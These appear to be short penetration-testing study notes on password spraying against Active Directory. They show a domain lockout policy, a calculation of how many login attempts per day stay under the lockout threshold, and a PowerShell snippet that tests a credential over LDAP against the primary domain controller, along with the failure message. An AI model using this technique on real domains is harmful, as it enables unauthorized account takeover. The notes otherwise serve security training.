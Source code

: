 ## Raw Format for Authentication
```
PS C:\> net accounts
Force user logoff how long after time expires?: Never
Minimum password age (days):                    0
Maximum password age (days):                    42
Minimum password length:                        0
Length of password history maintained:          None
Lockout threshold:                              5
Lockout duration (minutes):                     30
Lockout observation window (minutes):           30
Computer role:                                  WORKSTATION
The command completed successfully
```
- *With these settings, and assuming the actual users don’t fail a login attempt,*  
	we could attempt fifty-two logins in a twenty-four-hour period against every domain user without triggering a lockout.
```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
New-Object System.DirectoryServices.DirectoryEntry($SearchString, "Admin", "P@ssw0rd!")
```
### Error on bad password
```
format-default : The following exception occurred while retrieving member "distinguishedName": "The user name or password is incorrect.
```